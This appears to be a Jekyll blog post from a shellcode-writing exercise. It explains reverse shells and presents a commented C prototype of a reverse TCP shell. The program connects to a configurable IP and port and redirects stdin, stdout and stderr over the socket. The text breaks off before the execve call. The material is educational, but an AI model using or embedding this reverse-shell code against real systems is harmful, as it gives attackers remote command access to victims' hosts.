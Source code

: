 ```yaml
---
layout: single 
classes: wide
title:  "Shell Reverse TCP Shellcode"
date:   2020-03-10 10:11:06 +0800
categories: jekyll update
---
```


A reverse shell is a shell initiated from the target host back to the attacker host which is in a listening state to pick up the shell. 

## Requirements

- Create a Shell_Reverse_TCP shellcode
    - Reverse connects to configured IP and Port
    - Execs shell on successful connection
- IP and Port should be easily configurable

## Prototype

This prototype is more simple compare with Shell Bind TCP, it will connect to remote host `127.0.0.1` and port `8443`, once connected it will execute the shell `/bin/bash`. I tried to make the program as simple as possible without any error check. I've add lot of comments on the C code, hope it should be easy to understand.

{% highlight c linenos %}
#include<stdio.h>
#include<sys/socket.h>
#include<arpa/inet.h>

#define SHELL "/bin/bash"
#define REV_IP "127.0.0.1"
#define REV_PORT 8443

int main(int argc, char *argv[]) 
{
    int server_sock;
    struct sockaddr_in server_addr;

    // http://man7.org/linux/man-pages/man2/socket.2.html
    // Create the socket:
    // Address Family - AF_INET (IPv4)
    // Type - SOCK_STREAM (TCP protocol)
    // Protocol - 0 (IP protocol)
    server_sock = socket(AF_INET, SOCK_STREAM, 0);

    // Prepare the socketaddr_in structure
    server_addr.sin_family = AF_INET;
    inet_pton(AF_INET, REV_IP, &server_addr.sin_addr);
    server_addr.sin_port = htons(REV_PORT);

    // http://man7.org/linux/man-pages/man2/connect.2.html
    // initiate a connection on a socket
    connect(server_sock, (struct sockaddr *) &server_addr, sizeof(server_addr));

    // http://man7.org/linux/man-pages/man2/dup.2.html
    // Duplicate the file descriptors for stdin[0], stdout[1], stderr[2]
    //  to a newly created socket
    // This will redirect all input, output and error over 
    //  the socket, allowing interacting with the executed program
    dup2(server_sock, 0); 
    dup2(server_sock, 1);
    dup2(server_sock, 2);

    // http://man7.org/linux/man-pages/man2/execve.2.html